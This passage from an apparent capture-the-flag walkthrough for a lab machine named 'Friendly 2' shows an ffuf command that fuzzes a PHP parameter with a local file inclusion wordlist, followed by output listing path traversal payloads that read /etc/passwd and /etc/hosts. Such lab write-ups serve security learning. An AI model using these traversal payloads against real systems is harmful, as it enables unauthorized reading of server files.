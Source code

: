 ![](/assets/img/Anexos/Máquina%20Friendly%202-1744360282099.png)

Looking the code I see an interesting comment which talk about _check_if_exist_ parameter.

![](/assets/img/Anexos/Máquina%20Friendly%202-1744360386510.png)

Fuzzing for this parameter using `ffuf` we find an LFI:
```shell
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://192.168.1.87/tools/check_if_exist.php?doc=FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.1.87/tools/check_if_exist.php?doc=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 16ms]
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 106ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 189, Words: 19, Lines: 8, Duration: 7ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 10ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 10ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 11ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 13ms]
../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 15ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 16ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 21ms]
../../../../../../../etc/passwd [Status: 200, Size: 1369, Words: 13, Lines: 27, Duration: 20ms]
```